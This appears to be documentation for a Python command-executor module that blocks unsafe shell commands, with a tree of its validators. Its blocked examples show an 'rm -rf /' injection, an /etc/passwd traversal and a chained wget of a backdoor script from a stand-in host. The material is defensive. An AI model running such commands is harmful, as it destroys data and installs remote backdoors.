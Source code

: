 **🚫 Path Traversal**:
```
❌ Blocked: mkdir ../../outside_project
Reason: Contains ".." (path traversal attempt)

❌ Blocked: python ../../../../etc/passwd
Reason: Resolves outside project root

❌ Blocked: python C:\Windows\System32\malware.py
Reason: Absolute path (only relative paths allowed)
```

**🚫 Code Injection**:
```
❌ Blocked: python -c "import os; os.system('rm -rf /')"
Reason: "-c" code contains "os.system" (harmful pattern)

❌ Blocked: pip install malicious-package; wget hacker.com/backdoor.sh
Reason: Contains ";" (command separator)
```

---

## 👨‍💻 For Developers: Technical Architecture

### File Structure

```text
command_executor.py (91,316 characters)
├── Constants & Imports
│ ├── MAX_FILE_SIZE_BYTES, BINARY_FILE_EXTENSIONS
│ ├── Regex Patterns (10+ validation regexes)
│ └── Type Hints (ConfirmationCallback, etc.)
│
├── normalize_command_for_platform() - Cross-platform command translation
│
├── CommandExecutor (Main Class)
│ ├── init() - Initialize with project root & callbacks
│ ├── Whitelist Configuration (self.allowed_commands)
│ ├── Django manage.py Configuration (safe/conditional/restricted lists)
│ │
│ ├── Public API
│ │ ├── execute() - Wrapper that returns CommandResult
│ │ └── run_command() - Main execution entry point
│ │
│ ├── Validator Functions (18+ specialized validators)
│ │ ├── _is_safe_python_command() - Python/manage.py validation
│ │ ├── _is_safe_pip_command() - Package installation validation
│ │ ├── _is_safe_django_admin() - Django project creation validation
│ │ ├── _is_safe_npm_command() - Node package validation
│ │ ├── _is_safe_git_command() - Version control validation
│ │ └── ... (13 more validators)
│ │
│ ├── Confirmation Check Functions (8 functions)
│ │ ├── _needs_confirm_python() - When to ask user
│ │ ├── _needs_confirm_pip() - Package install confirmation
│ │ └── ... (6 more)
│ │
│ │
│ ├── Security & Path Validation
│ │ ├── _is_path_within_root() - Core path safety check
│ │ ├── _validate_path_for_command() - Reusable helper
│ │ ├── check_command_for_block() - Blocklist pattern matching
│ │ └── _resolve_paths_in_command_args() - Path normalization
│ │
```